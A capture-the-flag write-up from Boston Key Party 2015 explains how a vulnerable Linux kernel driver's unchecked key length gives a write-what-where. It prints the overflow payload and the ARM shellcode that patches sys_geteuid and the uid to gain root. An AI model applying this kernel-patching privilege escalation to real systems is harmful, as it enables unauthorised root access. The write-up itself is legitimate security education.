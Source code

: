 ```yaml
---
title: "Boston Key Party 2015 - JFK/UMass (pwning 300) Writeup"
slug: "bpk2015-jfk-umass-pwning-300-writeup"
date: "2015-03-02 10:38:47.863695"
author_name: "FalconK"
author_email: "falcon@iridiumlinux.org"
draft: false
toc: false
images:
---
```


by FalconK and hbw

The kernel on the VM contains a vulnerable driver implementing a
key-value store in the kernel.  The vulnerability gives a kernel
write-what-where.

The first thing we did is extract the package given in the challenge
using 7-zip.  The image contains a kernel and rootfs.img.

In rootfs.img, there are two files of interest: /root/flag, and
/usr/supershm.ko.  The former tells us where to go to get the flag, and
the latter is the vulnerable module.

Also of interest is the kernel, vmlinux.

The vulnerable module gets loaded at boot time.

The module has a hidden delete command, but that is not necessary.  The
commands are:

- c - create key

- s - read from key (read from key in one op)

- u - store to key (write to key in one op)

- d - delete key

The syntax is to send text in one write operation to /dev/supershm.
Only store to key takes an argument (more to follow).  Send like this:

{language=bash}
~~~~~~~~
printf "cKEY" > /dev/supershm
~~~~~~~~

where KEY is whatever the key name is.

If you send the u command, the next thing written to the device is the
value to store.
If you send c, it allocates a buffer for the key (you have to do this
before doing u, s, or d)
If you send s, it reads from the key; read from the character device to
get the value out.
Sending d deletes the key.  It is not necessary for the challenge.

The key-value structure has two parts.  The keys are stored in one data
structure, and when the module is loaded, it sets up the value areas.

The keys are stored in an array of structs that look like this:

{language=c}
~~~~~~~~
{
    DWORD value_pointer,
    DWORD busy,
    BYTE key[32]
}
~~~~~~~~

value_pointer gives the buffer allocated at start for the key.  busy is
a boolean indicating whether the chunk is allocated.

The vulnerability is that it doesn't check the key length.  So, we wrote
a key like this:

{language=bash}
~~~~~~~~
./storage.sh c $(printf "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\x60\xe3\x02\xc0\xff\xff\xff\xffKEY\x00")
~~~~~~~~

We got the memory offset 0xc002e360 from disassembling the kernel.  It's
in the sys_geteuid function, where ordinarily we would read the EUID
into r0.  We write 0xFFFFFFFF to busy (anything other than 0 is ok), to
make it think the key is allocated, and then we set the key to "KEY".
The null terminator rounds things out for the string compare.

Then, we write to that key, patching the kernel!  The patch is this:

{language=bash}
~~~~~~~~
printf "uKEY" >/dev/supershm
printf "\x00\x00\xa0\xe3\x14\x00\x83\xe5\x14\x00\x93\xe5\x1e\xff\x2f\xe1" > /dev/supershm
~~~~~~~~

In assembly, that's just this:

"System Message: WARNING/2 (<string>:, line 82)"
Cannot analyze code. No Pygments lexer found for "assembly".

{language=python}
~~~~~~~~
.. code-block:: assembly

  mov    r0, #0
  str    r0, [r3, #20]
  ldr    r0, [r3, #20]
  bx     lr

~~~~~~~~

In other words, we patched the kernel's implementation of get_euid to
zero out the process's EUID and return 0.

When you get back to the shell and run id, you should see euid=0.

Then, we wrote other shellcode to do the same thing with offset 4, the
process uid:

{language=bash}
~~~~~~~~
printf "uKEY" >/dev/supershm
printf "\x00\x00\xa0\xe3\x04\x00\x83\xe5\x04\x00\x93\xe5\x1e\xff\x2f\xe1" > /dev/supershm
~~~~~~~~

Running id now shows uid=0 and euid=0.  We're root, and we can just cat
/root/flag.
